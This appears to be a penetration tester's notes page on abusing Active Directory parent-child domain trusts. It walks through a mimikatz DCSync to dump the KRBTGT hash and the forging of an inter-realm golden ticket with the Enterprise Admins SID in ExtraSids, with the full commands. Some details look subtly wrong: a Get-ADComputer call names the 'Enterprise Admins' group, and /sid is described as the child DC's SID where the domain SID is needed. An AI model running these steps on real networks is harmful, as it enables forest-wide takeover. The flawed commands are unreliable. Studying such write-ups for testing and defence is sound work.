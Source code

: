 # Exploiting domain trusts

### Resources

1. **DCSync attack**

{% embed url="https://www.extrahop.com/resources/attacks/dcsync" %}

{% embed url="https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync" %}

2. **Kerberos notes**

{% embed url="https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/kerberos" %}

3. Additional domain trusts exploitation resources

{% embed url="https://redfoxsec.com/blog/domain-trusts-exploitation-playbook/" %}

4. **KERB\_VALIDATION\_INFO**

* A structure where the `ExtraSids` field is specified

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/69e86ccc-85e3-41b9-b514-7d969cd0ed73" %}

### Terminologies

1. **Kerberos Ticket Granting Ticket** _(_**KRBTGT**)

* The service account for the Key Distribution Center (KDC) service
* This account is used to encrypt and sign all Kerberos tickets for the domain



2. **Golden ticket**

* A TGT is signed with the **KRBTGT** account's password hash
* Thus, with access to this hash, we will be able to forge a TGT for any user of our choice
* This ticket is known as a "_**Golden Ticket**_"

### Overview of exploiting domain trusts

In this attack, we abuse the trusts between domains in a forest. A particular trust between a parent and child domain can be exploited to forge an **Inter-Realm TGT** that can be used to gain access to the parent domain (refer to the sections below for more information).

#### Golden Ticket attack

Refer to the "_**Terminologies**_" section above for more details on the Golden Ticket.

In a Golden Ticket attack, an attacker who has obtained the **KRBTGT** account hash for a domain can forge their own Ticket Granting Ticket (TGT) for any user of their choice. This forged TGT, known as a Golden Ticket, is signed with the **KRBTGT** hash, making it appear valid to the domain’s Key Distribution Center (KDC).&#x20;

This particular TGT can be used to request service tickets (TGS) for any service as the specified user, effectively gaining unrestricted access within the domain (eg. _Administrator_).

> Note that without domain trust relationships, a golden ticket crafted for a particular domain will only work within that domain. Refer to the **Inter-realm TGT**s section below to understand how domain trusts can be exploited to further our privileges to other domains.

#### DC Sync attack

Given that we have obtained administrative privileges on a machine, we can perform a DC Sync attack to recover the **KRBTGT** account password hash. The found hash can be used to create an Inter-Realm TGT to exploit any domain trust configurations.

#### Inter-Realm TGTs

Inter-Realm TGTs are used to provide access to resources in other domains. A two-way relationship between a child and parent domain can be exploited to gain full access to the parent domain (refer to example below).&#x20;

### Example

Given that have compromised a child domain `A.DOMAIN.LOC`  with Tier 0 privileges. We can exploit the default bidirectional trust between the child and parent domain (`DOMAIN.LOC` ) to gain full access to the forest root domain.&#x20;

> Since there is only a single tree in the forest, the root/parent domain of the tree will be forest root domain.

Since we have Tier 0 admin privileges, we can perform a DC Sync to retrieve the **KRBTGT** password hash from our compromised machine:

{% code overflow="wrap" %}
```powershell
mimikatz # lsadump::dcsync /user:<domain>\krbtgt
...
Hash NTLM: xxxx
...
```
{% endcode %}

#### Inter-Realm TGT

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/general/golden-ticket" %}

Before we can create the Inter-Realm TGT, we need to retrieve SIDs for the following:

a. Child domain controller (eg. `DC.A.DOMAIN.LOC`), which we will impersonate in our forged TGT

b. **Enterprise Admins** group in the parent domain (eg. `ROOTDC.DOMAIN.LOC`), to be used as the extra SID in our forged TGT (more information below)

We can use the AD-RSAT Powershell cmdlets to retrieve the values:

{% code overflow="wrap" %}
```powershell
PS> Get-ADComputer -Identity "Enterprise Admins" -Server DC.A.DOMAIN.LOC
...
SID: xxxx
PS> Get-ADGroup -Identity "Enterprise Admins" -Server ROOTDC.DOMAIN.LOC
...
SID: xxxx
```
{% endcode %}

Now, we can craft the Inter-Realm TGT:

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /user:Administrator /domain:<child domain> /sid:<SID of child domain controller> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
```
{% endcode %}

a. `/user:Administrator` : Specify that we are impersonating the Administrator user

b. `/domain` : To specify the child domain (the one we have compromised)

c. `/sid` : SID of the child DC that we have found earlier

d. `/rc4` : Password hash of the KRBTGT user. This is the value we retrieved from the DC Sync attack earlier

e. `/sids` : SID of the Enterprise Admins group that we have found earlier

f. `/ptt` : Perform pass-the-ticket to load the ticket to memory

Essentially, we are exploiting the trust that the parent domain has with our child domain (via the bidirectional trust relationship enabled by default within the tree) to trick the parent domain into providing us with privileges of the `Enterprise Admins` group via the `ExtraSids` section (`/sids`) of the Privilege Attribute Certificate (PAC) [KERB\_VALIDATION\_INFO](https://app.gitbook.com/u/rGB3mnyBDeZY1pztQar9CHTNHtt2) structure, granting us administrative privileges over the entire forest.



...

